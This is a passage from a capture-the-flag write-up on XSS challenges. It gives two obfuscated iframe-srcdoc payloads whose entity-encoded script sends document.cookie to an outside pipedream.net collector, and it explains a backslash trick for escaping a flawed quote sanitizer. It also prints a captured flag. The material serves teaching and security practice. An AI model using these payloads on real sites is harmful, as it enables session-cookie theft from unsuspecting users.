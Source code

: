 **Alternative Approach**

I also saw some trick to bypass the uppercase restriction with `iframe`  + `srcdoc` + `html entity encoding` . It looks like the html entity encoded string will be automatically decoded first when using it in a JavaScript context parser like `document.write`.

```jsx
http://localhost/?q=<iframe srcdoc='%26%2360;%26%23115;%26%2399;%26%23114;%26%23105;%26%23112;%26%23116;%26%2362;%26%23115;%26%23101;%26%23116;%26%2384;%26%23105;%26%23109;%26%23101;%26%23111;%26%23117;%26%23116;%26%2340;%26%2340;%26%2340;%26%2341;%26%2332;%26%2361;%26%2362;%26%2332;%26%23123;%26%23108;%26%23111;%26%2399;%26%2397;%26%23116;%26%23105;%26%23111;%26%23110;%26%2361;%26%2339;%26%23104;%26%23116;%26%23116;%26%23112;%26%23115;%26%2358;%26%2347;%26%2347;%26%23101;%26%23111;%26%2353;%26%23102;%26%2348;%26%23113;%26%23104;%26%2397;%26%23102;%26%23117;%26%2353;%26%23120;%26%2353;%26%2348;%26%23107;%26%2346;%26%23109;%26%2346;%26%23112;%26%23105;%26%23112;%26%23101;%26%23100;%26%23114;%26%23101;%26%2397;%26%23109;%26%2346;%26%23110;%26%23101;%26%23116;%26%2347;%26%2339;%26%2343;%26%23100;%26%23111;%26%2399;%26%23117;%26%23109;%26%23101;%26%23110;%26%23116;%26%2346;%26%2399;%26%23111;%26%23111;%26%23107;%26%23105;%26%23101;%26%23125;%26%2341;%26%2344;%26%2332;%26%2349;%26%2348;%26%2348;%26%2348;%26%2341;%26%2360;%26%2347;%26%23115;%26%2399;%26%23114;%26%23105;%26%23112;%26%23116;%26%2362;'></iframe>

or 
http://localhost/?q=<iframe srcdoc='&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#115;&#101;&#116;&#84;&#105;&#109;&#101;&#111;&#117;&#116;&#40;&#40;&#40;&#41;&#32;&#61;&#62;&#32;&#123;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#101;&#111;&#53;&#102;&#48;&#113;&#104;&#97;&#102;&#117;&#53;&#120;&#53;&#48;&#107;&#46;&#109;&#46;&#112;&#105;&#112;&#101;&#100;&#114;&#101;&#97;&#109;&#46;&#110;&#101;&#116;&#47;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#125;&#41;&#44;&#32;&#49;&#48;&#48;&#48;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;'></iframe>
```

### **Flag**

```python
PWNME{D1d_y0U_S4iD-F1lt33Rs?}
```

## Say My Name

### **Flawed XSS Sanitization**

- The user-controlled directly propagate to the attribute’s script context, therefore the `>` , `<` sanitization is not useful.
- `"` is escaped to `\\"` which is vulnerable, because attacker could inject an additional `\` to escape the added `\` . By using this trick, we can break the `“` context and achieve XSS.

```jsx
def sanitize_input(input_string):
    input_string = input_string.replace('<', '')
    input_string = input_string.replace('>', '')
    input_string = input_string.replace('\'', '')
    input_string = input_string.replace('&', '')
    input_string = input_string.replace('"', '\\"')
    input_string = input_string.replace(':', '')
    return input_string
    
@app.route('/your-name', methods=['POST'])
def your_name():
    if request.method == 'POST':
        name = request.form.get('name')
        return Response(render_template('your-name.html', name=sanitize_input(name)), content_type='text/html')
```

